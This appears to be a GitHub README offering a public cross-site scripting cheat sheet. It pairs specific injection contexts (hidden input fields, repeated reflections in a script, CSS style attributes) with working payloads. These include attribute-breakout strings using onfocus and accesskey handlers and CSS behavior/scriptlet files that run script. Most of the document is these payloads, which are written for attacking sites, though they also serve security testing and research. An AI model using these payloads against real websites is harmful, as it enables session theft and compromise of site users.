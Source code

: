 # About XSS Problems

This is a public cheat sheet to help you solve problems you might encounter while trying to XSS a target, you can contribute by telling me your problems or solutions. If you find a solution, make sure they work in one of the following browsers: Chrome, Firefox, IE/Edge (IE version 9 or above), Safari and Opera. This Cheat Sheet is never finished, so I might add more over time.

Extra solutions to solved problems are also welcome.

---

# Problems and Solutions

## Hidden Input fields

📝 **Problem**

```
<input type="hidden" value="[injection-point]">
```

Greater than (>) and Less than (<) are properly encoded, you can only add attributes to the input tag.

💡 **Solution(s):**

```
'"/autofocus/onfocus='alert(1)'x=
```

**Note:**

This only works if the input element is in the following form.

```
<input value="[injection-point]" type="hidden">
```

It's not very common but it does happen.

By [me](https://twitter.com/Karel_Origin).

💡

```
'"/onclick='alert(1)'/accesskey='X'
```

**Note:**

Requires you to press ALT+SHIFT+X on Windows/Linux or CTRL+ALT+X on OS X. (Only works in Firefox.)

By [PortSwigger](http://blog.portswigger.net/2015/11/xss-in-hidden-input-fields.html).

---

## Multiple reflections in a script context

📝 **Problem**

```
x = "[injection-point]"
y = "[injection-point]"
```

Double quotes are properly encoded, it's only possible to escape the string with %0A and escape quotes using \

**Note:**

The same parameter is used for both injection points.

Injecting "1" in parameter "x" will result in:

```
x = "1"
y = "1"
```

💡 **Solution(s):**

There is no solution to this problem yet.

Feel free to [contribute](https://github.com/karelorigin/XSS-Problems/issues/new)!

---

## CSS Injection to XSS

📝 **Problem**

```
<input style="[injection-point]">
```

**Note:**

Double quotes are properly encoded.


💡 **Solution(s):**

```
behavior: url(xss.htc)
```

xss.htc:
```
<script>alert(1)</script>
```

**Note:**

xss.htc needs to be served as `text/x-component` and only works in docmode 9 which makes this payload pretty useless

💡

```
behavior: url(xss.txt)
```

xss.txt:
```
<scriptlet>  
    <implements type="behavior"/>
    <script>alert(1)</script>
</scriptlet>  
```

**Note:**

This doesn't work Cross-Domain, which means that you need to be able to upload a file to the current domain. The file needs to be served with one of the following Content-Types.

1. text/html
1. text/plain
1. image/*
1. video/mpeg
1. video/avi

This technique won't work if the site uses the `X-Content-Type-Options: nosniff` or `Content-Disposition: attachment` header.

By [Filedescriptor](http://blog.innerht.ml/cascading-style-scripting/).

---

# Contribute

That's it! feel free to [submit](https://github.com/karelorigin/XSS-Problems/issues/new) an issue and help others with their XSS problems.
